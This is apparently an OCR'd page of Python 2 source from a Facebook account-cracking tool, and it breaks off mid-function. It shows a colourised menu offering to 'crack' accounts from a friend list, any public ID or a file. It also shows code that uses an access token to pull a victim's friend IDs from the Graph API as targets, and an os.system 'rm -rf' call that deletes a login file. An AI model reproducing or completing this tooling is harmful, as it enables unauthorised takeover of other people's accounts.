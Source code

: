 	except IOError:

		print"\033[1;96m \x1b[1;91mToken invalid"

		os.system('rm -rf login.txt')

		time.sleep(1)

		login()

	os.system('clear')

	print logo

	print 42*"\033[1;96m="

	print "\x1b[1;96m[\x1b[1;92m1\x1b[1;96m]\x1b[1;93m Crack From Friend List"

	print "\x1b[1;96m[\x1b[1;92m2\x1b[1;96m]\x1b[1;93m Crack From Any Public ID"

	print "\x1b[1;96m[\x1b[1;92m3\x1b[1;96m]\x1b[1;93m Crack From File"

	print "\x1b[1;96m[\x1b[1;91m0\x1b[1;96m]\x1b[1;91m Back"

	pilih_super()

def pilih_super():

	peak = raw_input("\n\033[1;97m >>> \033[1;97m")

	if peak =="":

		print "\033[1;96m \x1b[1;91mFill in correctly"

		pilih_super()

	elif peak =="1":

		os.system('clear')

		print logo

		print 42*"\033[1;96m="

		jalan('\033[1;96m \033[1;93mGetting ID \033[1;97m...')

		r = requests.get("https://graph.facebook.com/me/friends?access_token="+toket)

		z = json.loads(r.text)

		for s in z['data']:

			id.append(s['id'])

	elif peak =="2":

		os.system('clear')

		print logo

		print 42*"\033[1;96m="

		idt = raw_input("\033[1;96m \033[1;93mEnter ID \033[1;91m: \033[1;97m")

		try:
